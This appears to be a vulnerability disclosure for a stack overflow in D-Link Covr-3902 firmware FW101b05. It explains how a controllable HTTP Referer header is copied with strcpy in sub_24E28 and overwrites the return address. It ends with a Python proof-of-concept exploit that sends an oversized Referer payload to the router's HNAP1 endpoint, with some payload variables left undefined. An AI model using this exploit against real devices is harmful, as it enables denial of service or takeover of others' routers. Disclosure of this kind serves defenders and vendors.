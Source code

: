 # Covr-3902 stack overflow vulnerability
## Overview
Manufacturer's website:[http://www.dlink.com.cn/](http://www.dlink.com.cn/)
Firmware download website:[http://www.dlink.com.cn/techsupport/ProductInfo.aspx?m=Covr-3902](http://www.dlink.com.cn/techsupport/ProductInfo.aspx?m=Covr-3902)
## Affected version
FW101b05
## Vulnerability details
In the function `sub_24E28`, the `HTTP_REFERER` is obtained through an environment variable, and this field is controllable, allowing it to be used as the value for `src`.
![](./_v_images/20240812131205937_2109.png =294x)
When the field value does not match the field within the program, it enters the `else` branch.
![](./_v_images/20240812123056250_20357.png =892x)
The stack overflow is achieved through the `strcpy` function, which overwrites the return address, and the address is controllable.
![](./_v_images/20240812142111525_6038.png =1117x)
## POC
```python
import requests
from pwn import *
payload = (
    b"http://192.168.0.1/SystemPayload"
    + payload_value
    + p32(0xdeadbeef)
    + payload_value2
    + p32(0xdeadbeef)
    + p32(0xdeadbeef)
    + cyclic(0x400)
)
# URL encode the payload to make it safe for use in the Referer header
burp0_url = "http://192.168.0.1:80/HNAP1/"
burp0_cookies = {"uid": "YAQEECTwfI"}
burp0_headers = {
    "User-Agent": "Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/113.0",
    "Accept": "*/*",
    "Accept-Language": "en-US,en;q=0.5",
    "Accept-Encoding": "gzip, deflate, br",
    "Content-Type": "text/xml; charset=utf-8",
    "SOAPAction": "\"http://purenetworks.com/HNAP1/GetDeviceFeatureAlpha\"",
    "HNAP_AUTH": "6E2565C8AE7008FF550E57BEB55A8FEE 1723345713",
    "Content-Length": "318",
    "Adcheck": "65535",
    "X-Requested-With": "XMLHttpRequest",
    "Origin": "http://192.168.0.1",
    "Connection": "close",
    "Referer": payload  
}
response = requests.post(burp0_url, headers=burp0_headers, cookies=burp0_cookies)
print("Response Status Code:", response.status_code)
print("Response Content:", response.text)
```
